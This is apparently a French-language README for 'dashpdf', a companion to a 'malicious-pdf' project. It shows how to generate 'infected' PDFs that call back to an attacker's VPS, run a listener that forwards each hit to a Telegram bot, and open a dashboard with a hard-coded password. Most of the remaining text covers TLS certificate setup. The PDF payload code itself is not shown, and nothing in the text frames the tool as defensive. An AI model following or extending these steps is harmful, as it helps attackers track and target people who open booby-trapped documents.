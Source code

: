 # dashpdf

in use with https://github.com/tucommenceapousser/malicious-pdf

# Generer les pdf infectés

📌 Exemples d'utilisation

### Interactive (par défaut) :

```bash
./genpdf.sh
```

### Non-interactive (automatique) :

```bash
./genpdf.sh -y --host 127.0.0.1 --port 4545 --base /home/kali/dashpdf --notify --token "123:ABC..." --chat "987654321"
```

### Non-interactive sans venv et sans mise à jour :

```bash
./genpdf.sh -y --host my.domain.tld --port 4545 --base /opt/dashpdf --no-venv --no-update
```

---

Cela va :

générer les PDF avec http://127.0.0.1:4545 comme callback

déposer test1.pdf … test11.pdf directement dans ./dashpdf/

Exécution recommandée — rapide

1. Déposer listener.py et dashboard.py sur ton VPS (même dossier).


2. Exporter Token/Chat (si tu veux les notifications) :


```bash
export TELEGRAM_TOKEN="TON_TOKEN_ICI"
export TELEGRAM_CHAT_ID="TON_CHAT_ID_ICI"
```

3. Lancer le listener :


```bash
python3 listener.py --port 4545
```

ou si tu préfères passer en CLI :

```bash
python3 listener.py --port 4545 --tg-token "TON_TOKEN" --tg-chat "TON_CHAT_ID"
```

4. Lancer le dashboard :


```bash
python3 dashboard.py
```

### ouvrir http://<IP_VPS>:8080
### login: mot de passe = Trh@ckn0n

# SSL is optionnal :

# Générer un certificat auto-signé (rapide — pour tests)

Génère une clé RSA 4096 et un certificat auto-signé valide 1 an (remplace your.vps.domain si tu veux un CN spécifique) :

## dans /etc/ssl/private ou ton dossier de travail

```bash
mkdir -p ~/ssl && cd ~/ssl
```

### clé RSA 4096 sans passphrase (pratique pour services automatisés)

```bash
openssl genpkey -algorithm RSA -out key.pem -pkeyopt rsa_keygen_bits:4096
```
# certificat auto signé (CN = your.vps.domain)

```bash
openssl req -new -x509 -key key.pem -out cert.pem -days 365 \
  -subj "/C=FR/ST=IDF/L=Paris/O=MyLab/CN=your.vps.domain"
```

### Donne les fichiers key.pem (privée) et cert.pem (certificat public).

Protéger la clé :

```bash
chmod 600 key.pem
```


# Si tu veux un certificat public (Let's Encrypt)

> Nécessite : un nom de domaine pointant sur ton VPS (A/AAAA) et ports 80/443 accessibles.



# Installer certbot :

```bash
sudo apt update
sudo apt install certbot -y
```

## Obtenir un cert (mode standalone — arrêtera tout service sur le port 80 le temps du challenge) :

### Arrête / arrange ton listener si il écoute le port 80 (ou utilise nginx)

```bash
sudo systemctl stop listener.service  # si tu as mis en service, sinon arrête le processus
```

```bash
sudo certbot certonly --standalone -d your.vps.domain --agree-tos -m ton.email@example.com --non-interactive
```

Les fichiers seront dans /etc/letsencrypt/live/your.vps.domain/ :

```bash
/etc/letsencrypt/live/your.vps.domain/fullchain.pem (certificat)
```

```bash
/etc/letsencrypt/live/your.vps.domain/privkey.pem (clé privée)
```


## Configurer listener.py pour utiliser TLS

### Exemple de lancement du script avec tes fichiers :

### si auto-signé dans ~/ssl

```bash
python3 listener.py --port 4545 --ssl --cert ~/ssl/cert.pem --key ~/ssl/key.pem
```

# si Let's Encrypt

```bash
python3 listener.py --port 4545 --ssl --cert /etc/letsencrypt/live/your.vps.domain/fullchain.pem --key /etc/letsencrypt/live/your.vps.domain/privkey.pem
```
